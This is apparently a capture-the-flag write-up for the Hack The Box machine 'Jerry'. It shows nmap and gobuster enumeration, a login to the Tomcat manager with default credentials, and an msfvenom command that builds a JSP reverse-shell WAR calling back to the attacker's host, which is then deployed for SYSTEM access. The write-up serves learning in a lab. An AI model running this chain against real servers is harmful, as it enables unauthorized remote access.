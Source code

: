**Ping**
![[Pasted image 20240626161450.png]]

**Nmap Scans**
```
mapit 10.10.10.95
```

Nmap Default Scan
![[Pasted image 20240626161651.png]]

Nmap Script and Service Scan
![[Pasted image 20240626161735.png]]

Nmap All port Scan
![[Pasted image 20240626164834.png]]

On port 8080
![[Pasted image 20240626164858.png]]

Gobuster Scan
```
gobuster dir -u http://10.10.10.95:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,aspx -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster.txt
```
![[Pasted image 20240626164239.png]]

On http://10.10.10.95:8080/manager/
![[Pasted image 20240626164955.png]]
It will prompt for password, found default creds for tomcat server **tomcat:s3cr3t**

In hacktricks page about tomcat enumeration: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat
![[Pasted image 20240626165311.png]]

WAR file upload filed
![[Pasted image 20240626165330.png]]

Will generate a war file
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=443 -f war -o shell.war
```
![[Pasted image 20240626165538.png]]

Will upload and deploy it
![[Pasted image 20240626165809.png]]
We can see the shell file, will just click it before that set up a Netcat listener

Got reverse shell
![[Pasted image 20240626165912.png]]
We are nt authority, so no need Privilege Escalation

**Flags**
![[Pasted image 20240626170445.png]]




Done with Jerry....:)

